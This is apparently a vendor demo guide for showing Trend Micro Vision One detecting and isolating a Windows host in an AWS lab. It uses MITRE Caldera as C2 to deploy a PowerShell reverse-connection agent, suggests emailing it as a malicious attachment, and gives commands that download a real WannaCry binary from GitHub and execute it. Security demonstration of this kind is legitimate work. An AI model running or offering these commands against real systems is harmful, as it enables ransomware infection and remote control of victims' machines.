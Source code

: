 # Trend Micro Vision One Demo

__Requirements:

Windows/Mac/Linux OS
- AWS Account
- RDP/SSH Client
- Google Chrome or Mozilla Firefox

__Prepaing the Demo Environment:

- Deploy the Cloud Formation Template (Make sure you are using the us-west-1 region)
The following information has to be provided:
-Stack name - Name of the stack you are creating (example XDR-Demo)
-KeyName - KeyPar to be used when creating the EC2 Instances
-Platform - Select the appropriate platform (VisionOne, C1WS or ApexOne). Based on your selection, the following information has be provided
--PlatformURL - If you selected ApexOne or VisionOne, add the AgentInstallationURL (ApexOne Agent Installer or VisionOne Basecamp)
--TenantID and Token - If you selected C1WS, you have to get the TennantID and Token to be used installing and activating the agent. You can get this information using the C1WS > Deployment Scripts

__Testing the demo environment

After the CFT deployment is finished, you need to access the Windows Instance using RDP. You can get the credentials following the procedure described here https://docs.aws.amazon.com/AWSEC2/latest/WindowsGuide/connecting_to_windows_instance.html

After connecting to your RDP Session, make sure you can access the Caldera Management Console (http://linux-ip). username/password - admin/admin)

Also, you must make sure the Windows Instance is registered in your VisionOne/ApexOne/C1WS Management Console. Also, make sure the EDR feature is enabled (This will require a specific policy -for ApexOne or C1WS- or the EDR feature to be enabled manually, in case you are using VisionOne).

Using the VisionOne Portal, you must make sure that you have created a Secure Access Rule to automatically isolate devices with a (persistent) Risk Level of 60 or Higher (once matched).

__What to expect from this demo!

This demo script was created to demonstrate the following use case:
+ Attacker trying to get the control of an Windows Instance
+ Attacker is using Mitre Caldera as C&C Server
++ Using Mitre Caldera, the Attacker will generate one malicious payload (powershell). This malicious payload will generate a reverse connection between the Windows Instance and the C&C Server.
++ The Attacker, using the Mitre Caldera, will use the tools available on Mitre Caldera to start checking some conditions and extracting sensitive data from the Windows Computer
++ The Trend Micro XDR agent is monitoring all the actions happening to the Windows Computer. The Risk Level of this device is increasing and it is becoming of of the riskiest devices of this demo environment.
++ The attacker will finish the attack encrypting the Windows Device, to make the impact of this attack even bigger.
++ Because of the policies in place, once the device' risk level reaches 60, the Windows Device will be automatically isolated.

__How to demo

1- Open the RDP Session and show the basecamp components running on background;

2- Open the VisionOne Dashboard, and show the Actual Risk Level of this Windows Computer;

3- Open the Mitre Caldera Management Console, and create a new malicious payload

--Navigate > Agents > Click Here to Deploy an Agent > Select the "54ndc47" agent and Select the Windows Platform

--Replace the "app.contact.http" information with the Linux IP Address (example http://linux-ip)

--Copy the Powershell script created for this agent


4- Execute the powershell script on the Windows Instance

Optional (in case you want to demonstrate it in conjunction with CAS)

4- Access the following website https://ps2exe.azurewebsites.net/ and generate an executable file using the powershell script you've copied in the previous step

4.1- Send an email with the malicious attachment to the target user

5- After you execute the PS script on the Windows Instance, you will find a new Client connected to the Mitre Caldera Portal (You can find it on Navigate > Agents menu)

6- Now selecte the Navigate > Operations menu. We will use this option to start the operation following that Demo Script described previously on this page.

7- Select the New Operation (name it as DemoXDR)

8- Select the option Manual Command > Select your Agent > Run the command "Hostname". You will notice that after 1 minute +- the status of this request will become green. That means the command was executed successfuly. You can check the output clicking on the "star" icon, in the right side of the command you executed.

9- Now select the option named "Potential Links". Using this option you can search through the Mitre Techniques, and test them as you believe will generate the best impact (based on the objectives you have for this demo).

10- The following Mitre Techniques can help you to increase the risk level of the Windows Machine quickly, so if you want, this could be the best path to follow and have the Automated Response actions triggered.

10.1- T1059.001, T1059.001, T1113, T1115, T1105, T1105, T1003.001, T1055.002, T1003.001, T1059.001, T1059.001, T1548.002, T1496, T1491

11- Check the VisionOne Portal, wait for the new logs (+-5 minutes) and look to the Risk Level of the Windows Instance. The number is increasing, right?

12- Check now the Observed Attack Techniques and the Workbenches. You will also find many detections! Its a good moment to show to your customer how to investigate and find what was detected or not by VisionOne.

13- After you showed all the information detected by VisionOne, it's time to drop the Ransomware file to the Windows Machine, and make sure the ransomware was executed successfuly.

13.1- To do that, select the Navigate > Operations. Create a new Operation named Ransomware.

13.2- Select the "Manual Command" Option, Select your target, then select the PS> interpreter.

13.3- Run the following commands "Invoke-WebRequest -Uri https://github.com/limiteci/WannaCry/raw/main/WannaCry.EXE -OutFile wcry.exe"

14.4- After the first command was successfuly executed, run the next command "Start-Process wcry.exe"

15- If you check the Windows Instance a few seconds later, you will find the machine is encrypted. In a 5 minutes period of time, if the Secure Access Rules you've created is enabled, you should lost the RDP Access to your Windows Instance. That means the VisionOne was able to detect the changes on the Risk Level, and then followed with the automated isolation for any devices with risk level >=60.

16- You can check the detection logs and actions using the VisionOne Portal. You can go through the Device Risk Level, Workbenches, Observed Attack Techniques and Response Management menus, which will highlight all the detections and actions takes due to this new high risk computer detected during this demo.






